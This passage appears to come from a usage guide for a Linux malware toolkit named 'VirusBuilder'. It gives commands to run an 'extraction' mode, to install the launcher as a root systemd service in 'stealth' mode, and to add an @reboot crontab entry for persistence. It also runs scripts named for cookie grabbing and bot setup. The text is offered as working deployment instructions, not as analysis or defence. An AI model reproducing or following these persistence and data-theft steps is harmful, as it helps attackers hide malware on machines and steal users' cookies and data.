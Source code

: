 #### Step 3: Run Extraction
```bash
python3 launcher.py --mode extraction --target /tmp/output
```

### Linux-Specific Features

#### Systemd Service
```bash
# Create service file
sudo nano /etc/systemd/system/virusbuilder.service

# Add service configuration
[Unit]
Description=VirusBuilder Service
After=network.target

[Service]
Type=simple
User=root
WorkingDirectory=/path/to/virusBuilder
ExecStart=/path/to/virusBuilder/launcher.py --mode stealth
Restart=always

[Install]
WantedBy=multi-user.target

# Enable and start service
sudo systemctl enable virusbuilder.service
sudo systemctl start virusbuilder.service
```

#### Cron Persistence
```bash
# Add to crontab
crontab -e

# Add entry
@reboot /path/to/virusBuilder/launcher.py --mode stealth
```

### Linux-Specific Tools Testing

#### Test Mobile Tools
```bash
cd mobile_tools
python3 virusBuilder_linux.py
python3 cookie_graber_linux.py
```

#### Test Network Tools
```bash
cd network_tools
python3 server.py
python3 setup_bot.py
```

---